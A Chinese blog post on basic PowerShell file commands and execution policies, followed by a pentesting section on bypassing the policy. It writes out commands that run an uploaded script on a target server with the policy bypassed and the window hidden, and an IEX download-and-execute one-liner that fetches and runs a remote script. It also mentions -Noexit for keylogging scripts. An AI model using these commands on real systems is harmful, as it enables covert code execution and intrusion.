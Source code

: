 ```yaml
---
layout: post
category: curleyg-code-hack
title: PowerShell基本命令和绕过权限执行
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: PowerShell基本命令和绕过权限执行
lock: need
---
```


# PowerShell基本命令和绕过权限执行

## 基本命令 

以文件操作为例

## 新建目录

```
New-Item whitecellclub-ItemType Directory
```

## 新建文件

```
New-Item light.txt-ItemType File
```

## 删除目录

```
Remove-Item whitecellclub
```

## 显示文件内容

```
Get-Content test.txt
```

## 设置文本内容

```
Set-Content test.txt-Value"Hello World!"
```

## 追加内容

```
Add-Content light.txt-Value"i love you"
```

## 清除内容

```
Clear-Content test.txt
```

## 执行策略

获取执行策略

```
Get-ExecutionPolicy
```

策略分以下几种：

- Restricted: 脚本不能执行(默认)
- RemoteSigned: 本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
- AllSigned: 仅当脚本由受信任的发布者签名时才能运行。
- Unrestricted: 允许所有的script运行

可以使用如下命令格式设置PowerShell的执行策略

```
Set-ExecutionPolicy <Policy name>
```

## 绕过策略来执行脚本

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted,所以，在渗透时，需要采用一些方法绕过策略来执行脚本

## 绕过本地权限执行

上传xxx.ps1到目标服务器，在CMD环境下，在目标服务器本地执行该脚本

```
PowerShell.exe-ExecutionPolicy Bypass-File xxx.ps1
```

## 本地隐藏绕过权限执行脚本

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoLogo-NonInteractive-NoProfile-File xxx.ps1
```

## 用IEX下载远程PS1脚本绕过权限执行

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-Nonl IEX (New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```

以上命令的参数说明：

- ExecutionPolicy Bypass : 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。
- WindowStyle Hidden ： 隐藏窗口
- NoLogo : 启动不显示版权标志的PowerShell
- NonInteractive (-Nonl) : 非交互模式，PowerShell不为用户提供交互的提示
- NoProfile (-Nop): PowerShell控制台不加载当前用户的配置文件
- Noexit : 执行后不退出Shell。这在使用键盘记录等脚本时非常重要。
- PowerShell脚本在默认情况下无法直接运行，这时就可以使用上述三种方法绕过安全策略，运行PowerShell脚本。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
